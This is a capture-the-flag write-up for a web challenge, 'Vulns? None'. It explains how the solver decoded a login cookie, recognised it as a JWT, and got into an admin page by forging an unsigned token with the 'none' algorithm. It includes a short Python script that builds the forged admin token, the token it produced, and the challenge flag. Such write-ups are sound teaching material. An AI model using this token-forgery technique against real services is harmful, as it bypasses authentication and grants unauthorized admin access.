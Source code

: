 # ## Vulns? None

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Cookies? None
```

## Solve

Accessing the link provided in the challenge, a web page is served with a simple login and register. Registering an account and login in after, a new link appears (*/administration*) and a cookie **token**.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/vuln_none/images/after_login.png?raw=true)

Accessing the administration page we are received with: **No bussiness here!**.

Looking into the token, by the way its constructed looks like a JWT. Using https://jwt.io/ to decode it, the results are:

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/vuln_none/images/jwt_headers.png?raw=true)

Meet the "None" Algorithm: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
A simple python scripts allows us to craft a JWT with the None algorithm.

```python
# https://pyjwt.readthedocs.io/en/latest/
import jwt

payload = {'id' : 'admin', 'admin': True}
print(jwt.encode(payload, None, algorithm=None, headers={'kid': 'da39a3ee5e6b4b0d3255bfef95601890afd80709'}))
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoiZGEzOWEzZWU1ZTZiNGIwZDMyNTViZmVmOTU2MDE4OTBhZmQ4MDcwOSJ9.eyJpZCI6ImFkbWluIiwiYWRtaW4iOnRydWV9.
```

And now we can access the administration page.

## Flag

CTFUA{JWT_1337_N0n3_dnVsbg==}

